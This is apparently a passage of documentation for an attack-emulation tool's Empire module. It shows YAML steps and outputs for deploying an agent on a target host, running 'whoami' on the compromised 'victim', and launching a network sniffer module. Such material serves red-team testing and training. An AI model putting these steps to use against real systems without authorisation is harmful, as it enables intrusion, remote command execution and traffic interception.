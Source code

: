Output:

```json
{
  "result": "ok",
  "output": "Agent 'MyAgent' deployed on target 192.168.61.12.",
  "serialized_output": {}
}
```

### Execute command on agent

Input:

```yaml
my-step:
  module: empire
  arguments:
    action: execute-command
    agent_name: MyAgent
    command: whoami

```

Output:

```json
{
  "result": "ok",
  "output": "{'agent': 'E5XSKQ4F', 'command': 'whoami', 'results': 'victim', 'taskID': 2, 'user_id': 1, 'username': 'empireadmin'}",
  "serialized_output": {}
}
```

### Execute module on agent

Input:

```yaml
my-step:
  module: empire
  arguments:
    action: execute-module
    agent_name: MyAgent
    module:
      name: collection/sniffer
      arguments:
        IpFilter: 192.168.33.12
        PortFilter: 1234

```

Output:

```json
{
  "result": "ok",
  "output": "<output from the module execution>",
  "serialized_output": {}
}
```
